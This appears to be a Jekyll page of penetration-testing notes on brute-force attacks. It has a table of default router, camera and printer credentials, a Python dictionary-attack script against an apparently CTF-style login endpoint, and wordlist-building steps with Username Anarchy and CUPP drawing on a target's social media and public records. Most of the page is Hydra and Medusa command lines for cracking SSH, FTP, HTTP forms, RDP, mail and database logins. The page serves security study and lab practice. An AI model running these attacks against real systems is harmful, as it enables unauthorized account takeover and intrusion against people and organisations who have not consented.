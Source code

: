 ```yaml
---
layout: default
title: Brute Force Attacks
permalink: /Web/brute_force/
---
```


## Default Passwords
Some examples of default passwords:
{% raw %}
| Device/Manufacturer    | Default Username | Default Password | Device Type                     |
|------------------------|------------------|------------------|---------------------------------|
| Linksys Router         | admin            | admin            | Wireless Router                 |
| D-Link Router          | admin            | admin            | Wireless Router                 |
| Netgear Router         | admin            | password         | Wireless Router                 |
| TP-Link Router         | admin            | admin            | Wireless Router                 |
| Cisco Router           | cisco            | cisco            | Network Router                  |
| Asus Router            | admin            | admin            | Wireless Router                 |
| Belkin Router          | admin            | password         | Wireless Router                 |
| Zyxel Router           | admin            | 1234             | Wireless Router                 |
| Samsung SmartCam       | admin            | 4321             | IP Camera                       |
| Hikvision DVR          | admin            | 12345            | Digital Video Recorder (DVR)   |
| Axis IP Camera         | root             | pass             | IP Camera                       |
| Ubiquiti UniFi AP      | ubnt             | ubnt             | Wireless Access Point           |
| Canon Printer          | admin            | admin            | Network Printer                 |
| Honeywell Thermostat   | admin            | 1234             | Smart Thermostat                |
| Panasonic DVR          | admin            | 12345            | Digital Video Recorder (DVR)   |
{% endraw %}
[CIRT.net](https://www.cirt.net/passwords) is a database for default credentials. <br>

SecLists maintains a list of common usernames at [top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt).

## Utilizing Wordlists

- Publicly Available Lists: Repositories like [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords) offer various wordlists catering to various attack scenarios.
- Custom-Built Lists: We can craft our wordlists by leveraging information gleaned during reconnaissance.

### Dictionary Attack

Example python script for dictionary attack:
```
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```
We can costumize wordlists based on the password policy:
```
grep -E '^.{8,}$' darkweb2017-top10000.txt > darkweb2017-minlength.txt
grep -E '[A-Z]' darkweb2017-minlength.txt > darkweb2017-uppercase.txt
grep -E '[a-z]' darkweb2017-uppercase.txt > darkweb2017-lowercase.txt
grep -E '[0-9]' darkweb2017-lowercase.txt > darkweb2017-number.txt
```
These commands:
- Filter for passwords containing at least 8 characters.
- Enforces at least one uppercase letter.
- Enforces at least one lowercase letter.
- Enforces that passwords containing at least one numerical digit.

*Note: Many users reuse passwords across multiple online accounts, so breached passwords can be useful.*

### Custom Wordlists
#### Username Anarchy
```
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
```
```
./username-anarchy Jane Smith > jane_smith_usernames.txt
```
#### CUPP
After we employed Username Anarchy to generate a list of potential usernames, we can use CUPP to complement this with a targeted password list.
```
sudo apt install cupp -y
```
We can one gather this valuable intelligence for a target:
- Social Media
- Company Websites
- Public Records
- News Articles and Blogs

Open interactive mode:
```
cupp -i
```
After we generated a list, we can use grep to filter that password list to match a certain policy:
```
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```
## Hydra
It is a versatile tool that can brute-force a wide range of services, including web applications, remote login services like SSH and FTP, and even databases.
Hydra's basic syntax:
```
hydra [login_options] [password_options] [attack_options] [service_options]
```
Few examples:
- FTP: `hydra -l admin -P /path/to/password_list.txt ftp://$ip`, `hydra -L usernames.txt -P passwords.txt -s $port -V ftp.example.com ftp`
- SSH: `hydra -l root -P /path/to/password_list.txt ssh://$ip`, `hydra -l root -p toor -M targets.txt ssh`
- HTTP-GET (Basic HTTP Authentication): `hydra -L usernames.txt -P passwords.txt www.example.com http-get`, `hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt $ip http-get / -s $port`
- HTTP-POST: `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`,`hydra -l admin -P /path/to/password_list.txt $ip http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"`
- SMTP: `hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`
- POP3: `hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`
- IMAP: `hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`
- MySQL: `hydra -l root -P /path/to/password_list.txt mysql://$ip`
- RDP: `hydra -l admin -P /path/to/password_list.txt rdp://$ip`, `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 $ip rdp`

### Constructing the params String (HTTP-POST)
This string encapsulates the data that will be sent to the server with each login attempt, mimicking a legitimate form submission.
- Form Parameters: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (^USER^ and ^PASS^) within these parameters with values from your wordlists.
- Additional Fields: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the params string.
- Success Condition: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like S=302 for a redirect) or the presence or absence of specific text in the server's response (e.g., F=Invalid credentials or S=Welcome).

## Medusa
```
medusa [target_options] [credential_options] -M module [module_options]
```
Few examples:
- SSH: `medusa -h $ip -n $port -U usernames.txt -P passwords.txt -M ssh -t 3`, `medusa -h $ip -u user -P passwords.txt -M ssh`
- HTTP-GET (Basic HTTP Authentication): `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET`
- `medusa -h $ip -U usernames.txt -e ns -M service_name`: Perform checks for empty passwords (-e n) and passwords matching the username (-e s).
